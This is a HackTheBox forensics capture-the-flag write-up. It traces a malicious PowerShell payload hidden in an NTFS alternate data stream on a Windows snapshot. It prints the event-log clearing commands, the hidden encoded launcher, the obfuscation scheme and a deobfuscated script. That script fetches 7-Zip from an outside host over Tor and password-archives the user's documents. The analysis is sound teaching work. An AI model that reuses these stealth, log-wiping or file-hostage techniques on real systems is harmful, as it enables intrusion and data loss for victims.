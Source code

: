 ```yaml
---
title: Artifacts of dangerous Sightings writeup
date: 2023-03-23 15:00:00 +0200
categories: [Writeup, HackTheBox]
tags: [forensics, windows, powershell]     # TAG names should always be lowercase
img_path: /assets/img/challenges/artifacts
image: # Thumbnail 
  src: a.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


## Description
Pandora has been using her computer to uncover the secrets of the elusive relic. She has been relentlessly scouring through all the reports of its sightings. However, upon returning from a quick coffee break, her heart races as she notices the Windows Event Viewer tab open on the Security log. This is so strange! Immediately taking control of the situation she pulls out the network cable, takes a snapshot of her machine and shuts it down. She is determined to uncover who could be trying to sabotage her research, and the only way to do that is by diving deep down and following all traces ...

## Writeup
We are given a `vhdx` file, which contains a snapshot of the Windows machine belonging to Pandora. Looking through the snapshot, we find a powershell history file, containing the following:
```console
type finpayload > C:\Windows\Tasks\ActiveSyncProvider.dll:hidden.ps1
exit
Get-WinEvent
Get-EventLog -List
wevtutil.exe cl "Windows PowerShell" 
wevtutil.exe cl Microsoft-Windows-PowerShell/Operational
Remove-EventLog -LogName "Windows PowerShell"
Remove-EventLog -LogName Microsoft-Windows-PowerShell/Operational
Remove-EventLog 
```

We can tell based on this that a payload is echoed into the file given by the path `C:\Windows\Tasks\ActiveSyncProvider.dll:hidden.ps1`, and then eventlogs are deleted. 

Wait, what? On the system there is no file named `ActiveSyncProvider.dll:hidden.ps1`, nor `hidden.ps1`, so what's going on here? Turns out, on Windows there is a thing called ADS, or Alternative Data Stream. Basically, it can be used to add meta data to files, however in this case it is used to store a (presumably) malicious payload inside the metadata of `ActiveSyncProvider.dll`. If we look at recently modified files on the snapshot this file also shows up as the most recently modified, so this makes sense. 

We can extract the payload by using the powershell command:
```ps
Get-Content .\ActiveSyncProvider.dll -Stream hidden.ps1
```

The contents of the file looks like this:
```ps
powerShell.exe -WindowStyle hiddeN -ExecuTionPolicy ByPasS -enc JAB7AFsAfgBAAH0AIAA9ACAAJAAoACkAOw....
```

As we can tell, the payload runs a base64 encoded string as a powershell script. If we decode this string we end up with a payload that looks like this:

```ps
${[~@} = $();
${!!@!!]} = ++${[~@}; 
${[[!} = --${[~@} + ${!!@!!]} + ${!!@!!]}; 
${~~~]} = ${[[!} + ${!!@!!]}; 
${[!![!} = ${[[!} + ${[[!}; 
${(~(!} = ${~~~]} + ${[[!}; ${!~!))} = ${[!![!} + ${[[!}; 
${((!} = ${!!@!!]} + ${[!![!} + ${[[!}; 
${=!!@!!}  = ${~~~]} - ${!!@!!]} + ${!~!))}; 
${!=} =  ${((!} - ${~~~]} + ${!~!))} - ${!!@!!]}; 
${=@!~!} = "".("$(@{})"[14]+"$(@{})"[16]+"$(@{})"[21]+"$(@{})"[27]+"$?"[1]+"$(@{})"[3]); 
${=@!~!} = "$(@{})"[14]+"$?"[3]+"${=@!~!}"[27]; 
${@!=} = "["+"$(@{})"[7]+"$(@{})"[22]+"$(@{})"[20]+"$?"[1]+"]";

"${@!=}${~~~]}${(~(!} + ${@!=}${~~~]}${(~(!} + ${@!=}${~~~]}${(~(!} + ${@!=}${~~~]}${[[!} + ${@!=}${[!![!}${!~!))} + ......" |& ${=@!~!}
```

Obviosuly this looks like a super obfuscated and malicious piece of powershell malware. We can deobfuscate it by opening our powershell terminal, defining the same variables that the script itself defines, and then pasting in the string, without piping it into anything to avoid executing it. Obviously, it this was a real piece of malware we would have to be a little more careful, but since we are on a linux machine anyways it probably won't be too bad. We then get a slightly more deobfuscated version:

```ps
[Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]43 + [Char]32 + [Char]32 + ...
```

We can further deobfuscate this quite trivially, by loading this as a string in a python script, replacing all the `[Char]` blocks with empty strings, and then building the deobfuscated powershell script using the provided char codes. The result of this operation can be seen below:
```ps
function makePass
{
    $alph=@();
    65..90|foreach-object{$alph+=[char]$_};
    $num=@();
    48..57|foreach-object{$num+=[char]$_};

    $res = $num + $alph | Sort-Object {Get-Random};
    $res = $res -join '';
    return $res;
}

function makeFileList
{
    $files = cmd /c where /r $env:USERPROFILE *.pdf *.doc *.docx *.xls *.xlsx *.pptx *.ppt *.txt *.csv *.htm *.html *.php;
    $List = $files -split '\r';
    return $List;
}

function compress($Pass)
{
    $tmp = $env:TEMP;
    $s = 'https://relic-reclamation-anonymous.alien:1337/prog/';
    $link_7zdll = $s + '7z.dll';
    $link_7zexe = $s + '7z.exe';

    $7zdll = '"'+$tmp+'\7z.dll"';
    $7zexe = '"'+$tmp+'\7z.exe"';
    cmd /c curl -s -x socks5h://localhost:9050 $link_7zdll -o $7zdll;
    cmd /c curl -s -x socks5h://localhost:9050 $link_7zexe -o $7zexe;

    $argExtensions = '*.pdf *.doc *.docx *.xls *.xlsx *.pptx *.ppt *.txt *.csv *.htm *.html *.php';

    $argOut = 'Desktop\AllYourRelikResearchHahaha_{0}.zip' -f (Get-Random -Minimum 100000 -Maximum 200000).ToString();
    $argPass = '-p' + $Pass;

    Start-Process -WindowStyle Hidden -Wait -FilePath $tmp'\7z.exe' -ArgumentList 'a', $argOut, '-r', $argExtensions, $argPass -ErrorAction Stop;
}

$Pass = makePass;
$fileList = @(makeFileList);
$fileResult = makeFileListTable $fileList;
compress $Pass;
$TopSecretCodeToDisableScript = "HTB{Y0U_C4nt_St0p_Th3_Alli4nc3}"
```
We then receive our flag and have solved the challenge.
